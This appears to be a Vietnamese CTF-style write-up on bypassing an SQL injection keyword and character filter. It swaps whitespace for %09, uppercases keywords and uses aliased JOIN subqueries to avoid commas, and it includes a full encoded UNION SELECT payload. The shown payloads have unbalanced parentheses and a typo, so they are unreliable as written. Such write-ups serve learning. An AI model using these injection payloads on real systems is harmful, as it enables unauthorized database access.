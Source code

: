 - Các ký tự bị filter nên ta sẽ bypass như sau:
  - `Whitespace` =>  `%09`
  - `select` =>  `SELECT`
  - `union` =>  `UNION`
  - `join` =>   `JOIN`
  - `where` =>  `limit` và `offset` 
  - `select  1,2 (filter dấu , )` =>  `(SELECT 1) AS A JOIN (SELECT 2) AS B` (Phải có alias cho sub-query)

- Mở source code ta có thông tin bảng:

![1](img/66/Screenshot%20from%202023-02-01%2023-58-38.png)

- Từ đó payload của ta sẽ có dạng:

```sql
0 union select - from (select 1) as A join (select 2) as Bjoin (select 3) as C join (select 4) as D
```

- Thay thế để nó bypass được filter thì payload trở thành:

```
0%09UNION%09SELECT%09*%09FROM%09(SELECT%091%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093%09AS%09C%09JOIN%09(SELECT%094)%09AS%09D
```

- Kết quả:

![1](img/66/Screenshot%20from%202023-02-01%2023-59-55.png)

